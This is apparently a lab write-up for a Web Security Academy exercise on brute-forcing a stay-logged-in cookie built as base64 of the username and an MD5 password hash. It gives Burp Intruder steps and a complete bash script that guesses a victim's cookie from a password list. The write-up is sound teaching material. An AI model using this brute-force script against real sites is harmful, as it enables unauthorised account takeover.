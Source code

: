 # Lab: Brute-forcing a stay-logged-in cookie

This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.

To solve the lab, brute-force Carlos's cookie to gain access to his `My account` page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- Wordlists: Candidate passwords
---

# Session Cookie Analysis and Attack Execution

## 1. Stay logged in Option
- When logging in and selecting the "Keep me logged in" option, the processing appears as follows:  
  ![image](https://github.com/user-attachments/assets/26704adc-199f-4482-86e1-a621abeb964f)

---

## 2. Decoding the Cookie
- We know the cookie is encoded in `base64`. After decoding, we obtain the following structure:  
  `wiener:<hash md5>`  

- The value `51dc30ddc473d43a6011e9ebba6ca770` contains 32 hexadecimal characters, suggesting it is an `MD5 hash`:  
  ![image](https://github.com/user-attachments/assets/9062361d-8f9b-4183-8b59-c7c0fb02bbe8)

---

## 3. Sending the Request to Intruder
- We send the request to the Intruder tool, ensuring the session cookie is empty.  
- Then, we add `payload processing` rules as follows:
  1. Compute the MD5 hash of the password.
  2. Add the prefix `carlos` to the hash.
  3. Encode the resulting string in `base64`:  
  ![image](https://github.com/user-attachments/assets/3327d4f6-8126-46ce-afb7-ad0fbd66084a)

---

## 4. Executing the Attack
- Finally, we execute the attack to identify valid payloads:  
  ![image](https://github.com/user-attachments/assets/4b9e1439-eab0-4804-9174-5920037396d3)  
  ![image](https://github.com/user-attachments/assets/6b55bcb2-2815-45ad-abeb-c000d5831169)



We can perform the same attack using a `bash` script:
```bash
#!/bin/bash

url="https://0a1000b60346ebed84e4d2e5004c0041.web-security-academy.net/my-account"
password_file="passwords.txt"
user="carlos"

if [[ ! -f $password_file ]]; then
    echo "Error: The file '$password_file' does not exist."
    exit 1
fi

generate_encoded_value() {
    local password=$1
    local md5_hash
    local encoded_value

    md5_hash=$(echo -n "$password" | md5sum | awk '{print $1}')
    encoded_value=$(echo -n "$user:$md5_hash" | base64)
    echo "$encoded_value"
}

while read -r password; do
    # Ignorar líneas vacías
    [[ -z "$password" ]] && continue

    encoded_value=$(generate_encoded_value "$password")

    response=$(curl -s -w "%{http_code}" -o response.html "${headers[@]}" \
        -b "stay-logged-in=$encoded_value; Session=" \
        -G "$url" --data-urlencode "id=$user")

    if [[ $response -eq 200 ]]; then
        echo -e "\nPassword: $password"
        echo "Cookie stay-logged-in: $encoded_value"
        break
    fi
done < "$password_file"

rm -f response.html
```

![image](https://github.com/user-attachments/assets/85a88dd5-f401-461b-ac25-50e923e6b576)


